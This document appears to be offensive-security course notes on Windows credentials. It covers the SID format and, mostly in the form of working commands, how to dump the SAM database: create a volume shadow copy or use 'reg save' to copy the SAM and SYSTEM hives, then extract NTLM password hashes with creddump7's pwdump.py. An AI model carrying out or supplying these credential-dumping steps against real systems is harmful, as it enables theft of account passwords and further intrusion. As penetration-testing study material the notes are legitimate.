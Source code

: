 SAM Database location: 
```
C:\Windows\System32\config\SAM
```

## SID Structure

### S-R-I-S

- S -> Identifying that it is a SID
- R -> Revision level (often 1)
- I -> Identifier authority value (often 5)
- S -> Sub authority values (could have more). Always ends with a relative identifier that represents an object in the computer

### Get computer name

```powershell
$env:computername
```

### Enumerate SID for local admin

```powershell
[wmi] "Win32_userAccount.Domain='client',Name='Administrators'"
```

### Get credentials from SAM database

```powershell
# Open powershell as admin
# Since SYSTEM has lock on SAM database, we need to bypass it

# Create Shadow Copy fo C:\
wmic shadowcopy call create Volume='C:\'

# Verify snapshots
vssadmin list shadows

# Copy source path of SAM from shadow copy to user dir
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\Users\offsec.corp1\Downloads\sam

# Copy source path of SYSTEM from shadow copy to user dir
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\Users\offsec.corp1\Downloads\system

# Same routine but with the REGISTRY
reg save HKLM\sam C:\Users\offsec.corp1\Downloads\sam

reg save HKLM\system C:\Users\offsec.corp1\Downloads\system

# Using CredDump7 to dump SAM database passwords
# First install python-crypto library
sudo apt install python-crypto

# Install CredDump7
sudo git clone https://github.com/CiscoCXSecurity/creddump7
cd creddump7

~ Copy SYSTEM and SAM files from Windows to Kali (or wherever creddump7 is installed) ~

# Crack NTLM hashes with pwdump.py
python pwdump.py SYSTEM SAM
```
